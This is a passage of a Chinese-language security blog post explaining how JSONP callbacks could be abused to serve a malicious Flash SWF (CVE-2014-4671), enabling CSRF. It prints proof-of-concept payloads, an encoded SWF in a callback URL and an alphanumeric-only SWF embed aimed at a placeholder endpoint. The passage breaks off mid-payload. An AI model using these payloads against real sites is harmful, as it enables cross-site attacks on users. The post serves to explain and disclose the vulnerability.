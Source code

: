 ```{"id" : "1","name" : "知道创宇"}```
2、FLASH 与 JSONP

该来的始终会来，只是没想到相似的场景上演到这么快!就在最近的一次 flash 安全更新 ( security bulletin APSB14-17[http://helpx.adobe.com/security/products/flash-player/apsb14-17.html] ) 里修复了一个安全漏洞：

These updates include additional validation checks to ensure that Flash Player rejects malicious content from vulnerable JSONP callback APIs ( CVE-2014-4671 ).

而这个漏洞因影响到 Google、Facebook、Tumblr 等国际大网站而倍受国内外媒体的关注。而这个攻击技术就和 JSONP 的 callback 点息息相关. 这个问题主要存在 HTML 通过```<embed>、<object>```调用远程 flash 文件时，会直接忽视 Content-Type 而 JSONP 的 callback 输出一般都在文件开头就输出，那么完全可以通过 callback 点输出一个 swf 的文件，然远程 html 调用并运行 swf 文件。如：

	<script>
		// from http://50.56.33.56/blog/?p=242
		var flashvars = {};
		var params = {};                    
	var attributes = {};
	var url="http://127.0.0.1/getUsers.php?callback=CWS%07%AA%01%00%00x%DADP%C1N%021%14%9C%ED%22-j0%21%24%EB%81%03z%E3%E2%1F%18XI%88%1E%607%C0%C1%8B%D9%ACP%91X%ECf%A9%01%BF%40N%1C%F7%E6%DD%CF%F1%8F%F0%B5K%E2%3BL%DFL%DA%E9%9B%B7%05%FF%05%82%0Chz%E8%B3%03U%AD%0A%AA%D8%23%E8%D6%9B%84%D4%C5I%12%A7%B3%B7t%21%D77%D3%0F%A3q%A8_%DA%0B%F1%EE%09gpJ%B2P%FA9U0%2FHr%AD%0Df%B9L%8D%9C%CA%AD%19%2C%A5%9A%C3P%87%7B%A9%94not%AE%E6%ED%2Bd%B96%DA%7Cf%12%ABt%F9%8E4%CB%10N%26%D2%C4%B9%CE%06%2A%5D%ACQ0%08%B4%1A%8Do%86%1FG%BC%96%93%F6%C2%0E%C9%3A%08Q%5C%83%3F2%80%B7%7D%02%2B%FF%83%60%DC%A6%11%BE%7BU%19%07%F6%28%09%1B%15%15%88%13Q%8D%BE%28ID%84%28%1F%11%F1%82%92%88%FD%B9%0D%EFw%C0V34%8F%B3%145%88Zi%8E%5E%14%15%17%E0v%13%AC%E2q%DF%8A%A7%B7%01%BA%FE%1D%B5%BB%16%B9%0C%A7%E1%A4%9F%0C%C3%87%11%CC%EBr%5D%EE%CA%A5uv%F6%EF%E0%98%8B%97N%82%B9%F9%FCq%80%1E%D1%3F%00%00%00%FF%FF%03%00%84%26N%A8";
	swfobject.embedSWF(url, "content", "400", "200", "10.0.0", "expressInstall.swf", flashvars, params, attributes);
	</script>
	
	
这样早在 2012 年提出的通过 callback 输出的 swf 文件流，的实际效果是在被攻击的网站上存放了一个恶意的 swf 文件，而 html 远程调用这个 swf 文件可以直接导致 CSRF 攻击.
[具体上传 flash 文件带来的 CSRF 攻击请参考我写的《 Flash+Upload Csrf  攻击技术》 http://blog.knownsec.com/2014/06/flashupload_csrf_attacking/]

细心的朋友可能发现上面代码里 callback 输出的 swf 文件流里存着各种各样的特殊字符，这个对于上面提到的“ b、过滤 callback 以及 JSON 数据输出”防御方案直接给拦截了，对于 Goolge 、Facebook 这样久经考验的大网站来说，防御应该不在话下！

在 flash 的更新“ security bulletin APSB14-17 ”发布后，该漏洞发现者给出了详细的漏洞细节其中一个亮点就是作者实现了一个纯 alphanumeric 输出的 swf 文件的方法，如：

	<object type="application/x-shockwave-flash"
	data="https://vulnerable.com/endpoint?callback=CWSMIKI0hCD0Up0IZ
	UnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7iiudIbEAt333swW0ssG03sDDtDDDt0
	333333Gt333swwv3wwwFPOHtoHHvwHHFhH3D0Up0IZUnnnnnnnnnnnnnnnnnnnUU
	5nnnnnn3Snn7YNqdIbeUUUfV13333333333333333s03sDTVqefXAxooooD0Ciud
	IbEAt33swwEpt0GDG0GtDDDtwwGGGGGsGDt33333www033333GfBDTHHHHUhHHHe
	RjHHHhHHUccUSsgSkKoE5D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7YN
	qdIbe13333333333sUUe133333Wf03sDTVqefXA8oT50CiudIbEAtwEpDDG033sD
	DGtwGDtwwDwttDDDGwtwG33wwGt0w33333sG03sDDdFPhHHHbWqHxHjHZNAqFzAH
	ZYqqEHeYAHlqzfJzYyHqQdzEzHVMvnAEYzEVHMHbBRrHyVQfDQflqzfHLTrHAqzf
	HIYqEqEmIVHaznQHzIIHDRRVEbYqItAzNyH7D0Up0IZUnnnnnnnnnnnnnnnnnnnU
	U5nnnnnn3Snn7CiudIbEAt33swwEDt0GGDDDGptDtwwG0GGptDDww0GDtDDDGGDD
	GDDtDD33333s03GdFPXHLHAZZOXHrhwXHLhAwXHLHgBHHhHDEHXsSHoHwXHLXAwX
	HLxMZOXHWHwtHtHHHHLDUGhHxvwDHDxLdgbHHhHDEHXkKSHuHwXHLXAwXHLTMZOX
	HeHwtHtHHHHLDUGhHxvwTHDxLtDXmwTHLLDxLXAwXHLTMwlHtxHHHDxLlCvm7D0U
	p0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAtuwt3sG33ww0sDtDt0
	333GDw0w33333www033GdFPDHTLxXThnohHTXgotHdXHHHxXTlWf7D0Up0IZUnnn
	nnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAtwwWtD333wwG03www0GDGpt03w
	DDDGDDD33333s033GdFPhHHkoDHDHTLKwhHhzoDHDHTlOLHHhHxeHXWgHZHoXHTH
	No4D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAt33wwE03GDDG
	wGGDDGDwGtwDtwDDGGDDtGDwwGw0GDDw0w33333www033GdFPHLRDXthHHHLHqee
```